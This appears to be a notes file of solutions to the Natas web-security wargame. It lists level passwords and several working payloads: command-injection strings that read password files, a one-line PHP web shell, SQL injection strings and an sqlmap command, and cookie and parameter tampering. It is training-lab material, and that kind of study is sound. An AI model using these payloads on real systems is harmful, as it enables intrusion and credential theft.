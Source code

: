 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Level14
* cat /etc/natas_webpass/natas14
* Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

#### Level15
>	 sqlmap -r r.req -p password
*	 " or "1"="1
* AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### Level16
* username=natas16" and hex(password) like "576149484561636a3633776e4e4942524f4865716933703974306d356e686d68%";-- -
* WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

#### Level 17
* 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### Level18
* xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

#### Level19
* 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

#### Level20
* payload: %0aadmin+1
* eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

#### Level21
* IFekPyrQXftziDEsUr3x21sYuahypdgJ

#### Level22
* La pagina1 no tiene la cookie con la key admin. Se modifica la cookie en la pagina2 con el parametro vulnerable y despues se reemplaza la cookie en la pagina1.
* chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

#### Level23
* payload "passwd=11iloveyou"
* D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

#### Level24
* OsRmXFguozKpTZZ5X14zNO43379LZveg

#### Level25
* payload "passwd[]"
* GHF6X7YwACaYYssHVY05cFq83hRktl4c

#### Level26
* oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

#### Level27
* 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
